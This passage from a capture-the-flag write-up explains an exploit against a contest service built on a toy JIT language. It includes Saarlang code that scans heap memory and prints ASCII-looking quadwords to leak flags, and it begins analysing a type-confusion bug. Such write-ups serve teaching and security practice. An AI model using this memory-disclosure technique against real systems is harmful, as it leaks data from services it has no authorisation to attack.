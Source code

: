 The problem is that this generates _a lot_ of network traffic, which in turn makes it slow since most vulnboxes don't have a huge bandwidth.
Our A/D infrastructure sits on a very generous bandwidth, enough that we could just crank the parallelism knob and be done with it, but it would probably start looking like DoS.
So I wanted to do some filtering in the program to reduce network load.

A first attempt was to print `a@j` only if it is not zero: `falls a@j != 0: { mach sahmol_ln(a@j); }`.
Since the flag is ASCII, a zero quadword cannot be part of the flag, and large portions of the heap are zeroed, so it saves a lot of prints.
This was the first version of the exploit that I deployed against other teams (together with a backwards variant), and while better than no filter, it still generated a significant amount of traffic.

For the second version, I thought about pattern-matching `SAAR{`, but it was pretty painful.
Instead, I realized that I can approximately check whether a quadword is entirely made of printable characters by ANDing with 0x808080... and checking whether the result is zero.
Such a quadword could be in the middle of a flag.
We print the previous quadword (the flag might not be 8-aligned) and enough following quadwords to ensure that we dump the whole flag (38 characters):

```
holmol "stdlib.sl";

eija main() gebbtserick int: {
    var a: lischd int = neie lischd int(2305843009213693952);
    var j: int = 0;
    solang j < grees a: {
        falls (a@j unn 36170086419038336) == 0: {
            falls j > 0: { var i: int = j - 1; mach sahmol_ln(a@i); }
            mach sahmol_ln(a@j); j = j + 1;
            mach sahmol_ln(a@j); j = j + 1;
            mach sahmol_ln(a@j); j = j + 1;
            mach sahmol_ln(a@j); j = j + 1;
            mach sahmol_ln(a@j);
        }
        j = j + 1;
    }
}
```

I had to reduce the AND constant as it was aborting, probably due to an excessive integer value.
I used this (together with a backwards variant) in the second version of my exploit, and while still crude, it was good enough and reduced the traffic significantly.

### Bug 3: type confusion in function prototypes

Let's take a look at how the `sahmol_ln` function is implemented in `backend/src/saarlang/runtime_lib/stdlib_functions.cpp`:

```cpp
sl_int println(sl_int x) {
    printf("%ld\n", x);
    return 0;
}

void import_stdlib_functions(JitEngine &engine) {
    // Override with runtime library symbols
    // Use 'holmol "stdlib.sl";' to see these functions
    /* ... */
    engine.addFunction("sahmol_ln", (void *) &println);
    /* ... */
}
```
